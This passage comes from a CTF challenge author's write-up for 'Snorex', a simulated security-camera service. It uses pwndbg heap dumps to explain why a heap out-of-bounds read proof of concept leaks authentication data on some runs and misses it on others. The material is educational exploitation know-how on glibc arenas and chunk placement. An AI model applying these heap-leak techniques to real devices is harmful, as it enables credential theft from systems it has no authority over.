We run the exploit and hit the breakpoint. At this point in our PoC, we already sent `cmd=0` in `handle_auth` (populated auth data chunk), and the IQ buffer chunk has been filled with random data. Let's check the [heap](https://pwndbg.re/stable/configuration/heap/):

```c
heap

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe80008d0
Size: 0x290 (with flag bits: 0x295)

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe8000b60
Size: 0x110 (with flag bits: 0x115)             // AUTH_DATA

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe8000c70
Size: 0x20 (with flag bits: 0x25)

Top chunk | PREV_INUSE
Addr: 0x7fffe8000c90
Size: 0x20370 (with flag bits: 0x20371)
```

We dump the descriptor, confirming the chunk @ `0x7fffe8000b60` contains the auth data:

```bash
x/2s g_usr_ctx.encrypt_data

0x7fffe8000b70:	"SNOREX1"
0x7fffe8000b78:	"1\nFAKEZ-2K-CAM01\n1766072062\n\nAB:12:4D:7C:20:10\n1d2c69fbc6b20c0eb01c34d93e1214\n"
```

However, we don't see another chunk with the IQ data 🤔 If we dump the descriptor, we'll see the address range (`0x55555555`) doesn't match the auth chunk (`0x7fffe800`):

```bash
x/10s ctx

0x55555555a2a0:	"IQDACH01"
0x55555555a2a9:	""
0x55555555a2aa:	">\200"
0x55555555a2ad:	"$\237"
0x55555555a2b0:	""
0x55555555a2b1:	""
0x55555555a2b2:	""
0x55555555a2b3:	"diD\016g\230\231\232\233\234\235\236\237\200\201\202\203\204\205\206\207\210\211\212\213\214\215\216\217\220\221\222\223\224\225\226\227\230\231\232\233\234\235\236\237\242jkF\376k\370\324\300k\361R<\343\377!\204W"
0x55555555a2f3:	"{]\275\361+\200\v\3052ؽ\004z'o\300&ڸ\372\232$\353\354`\317\354\201SC\201Ρ>\277̾˒\361\243O\365\035wdݝ>\226\227غ\203\304\032R\260\233\245\364\034t\225Z3a\031\376\363\n\241C\377\276\272c\234W\2412\356y\354q=\006\303\356\241i\342\275\335w\027\020\3300\017\314:\260\0179oɜ\v ==\016\266)\200\364/C\342Ьč\211;\244\232\023թ\337\017Y\356Iȷ\345\323\327#\020\346\3319f\315h\251\2578Vs\305߮jy\302?\"\241N|\220\227DG}\030\037\240"
0x55555555a3a1:	""
```

Inspecting the `arenas` confirms that the IQ buffer chunk is in the `main_arena`, while the auth chunk is in a `non-main arena`:

```bash
arenas

    arena type    arena address    heap address       map start         map end    perm    size    offset              file
--------------  ---------------  --------------  --------------  --------------  ------  ------  --------  ----------------
    main_arena   0x7ffff79f1c60  0x55555555a000  0x55555555a000  0x55555557b000    rw-p   21000         0            [heap]
non-main arena   0x7fffe8000030  0x7fffe80008d0  0x7fffe8000000  0x7fffe8021000    rw-p   21000         0  [anon_7fffe8000]
non-main arena   0x7ffff0000030  0x7ffff00008d0  0x7ffff0000000  0x7ffff0021000    rw-p   21000         0  [anon_7ffff0000
```

Finally, let's [vis](https://pwndbg.re/stable/commands/glibc_ptmalloc2_heap/vis-heap-chunks/)ualise the heap for a clear picture why the PoC will fail:



It returns the following error, which makes sense considering the two chunks are nowhere near each other! 😅

```
TAG not found in IQ response
```

The reasoning behind this is the `load_config` runs in the main thread, so its allocations are from the **main arena** (normal `[heap]` region). Subsequent allocations occur within a worker thread, and land in a **non-main arena**. Since `load_config` on initialisation, this won't impact future runs, as we'll see now.

#### Second Run (success)

Run the PoC and check the heap again. This time there is an extra chunk of the same size (`0x110`), because they are both in the same arena! Last time `0x7fffe8000b60` chunk held the auth data, but on this connection attempt, it holds the IQ buffer data.

```c
heap

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe80008d0
Size: 0x290 (with flag bits: 0x295)

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe8000b60
Size: 0x110 (with flag bits: 0x115)             // IQ_BUFFER

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe8000c70
Size: 0x20 (with flag bits: 0x25)

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe8000c90
Size: 0x110 (with flag bits: 0x115)             // AUTH_DATA

Top chunk | PREV_INUSE
Addr: 0x7fffe8000da0
Size: 0x20260 (with flag bits: 0x20261)
```

We can confirm with `vis`:



The IQ buffer we just allocated sits **before** the auth data chunk, so the layout is effectively:

```c
[ IQ ctx ][ small chunk ][ encrypt_data ][ top ]
```

The OOB read starts at the IQ chunk and reads **forward**, dumping the encrypted data 🙏

```bash
leaked special string: b'1\nFAKEZ-2K-CAM01\n1766073092\n\nAB:12:4D:7C:20:10\na655d5fbcf4513e9d50ce9a8d1c09a\n'
```

#### Third Run (failure)

Let's run the PoC a final time and check the heap. We'll see that the two chunks have swapped places!

```c
heap

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe80008d0
Size: 0x290 (with flag bits: 0x295)

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe8000b60
Size: 0x110 (with flag bits: 0x115)             // AUTH_DATA

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe8000c70
Size: 0x20 (with flag bits: 0x25)

Allocated chunk | PREV_INUSE | NON_MAIN_ARENA
Addr: 0x7fffe8000c90
Size: 0x110 (with flag bits: 0x115)             // IQ_BUFFER

Top chunk | PREV_INUSE
Addr: 0x7fffe8000da0
Size: 0x20260 (with flag bits: 0x20261)
```

You know what that means? Our IQ buffer chunk comes **after** auth data chunk this time, as visualised:



The OOB read starts at the IQ chunk and reads **forward**, missing the encrypted data 😤

```c
[ encrypt_data ][ small chunk ][ IQ ctx ][ top ]
```

The reasoning behind this is simple: same size + repeated allocate/free loop = allocator reuse roulette, so the IQ chunk and the `"SNOREX1"` chunk swap places between runs.

#### y u do dis?

I thought it would make the challenge more fun! Nah, as I said at the beginning, I left testing this challenge kinda late (spending too much time on [game graphics](https://book.cryptocat.me/blog/ctf/2025/nahamcon-winter/misc/hacky_christmas) 😆) and just about fixed some unintended solutions, random bugs etc before the event started. Ideally, I would have corrected this _and_ made the challenge closer to the [Pwn2Own chain](https://www.rapid7.com/blog/post/2024/12/03/lorex-2k-indoor-wi-fi-security-camera-multiple-vulnerabilities-fixed/) like I did with [Mother Printers](https://app.hackinghub.io/hubs/mother-printers). The circumstances for that challenge were different though; players didn't have 24 hours to solve it (along with many other challs), the infra was more flexible (multi-container, multi-port) _and_ under less stress (not thousands of players at once) etc.

## Conclusion

If conditions would have allowed, I would have liked to make the challenge closer to the [Lorex chain](https://github.com/sfewer-r7/LorexExploit) - it is really crazy! The Snorex challenge is only inspired by a small part:



Even then, it's vastly over simplified due to [reasons..](#y-u-do-dis) Anyway, I hope you enjoyed it all the same - see you for the next one 😺
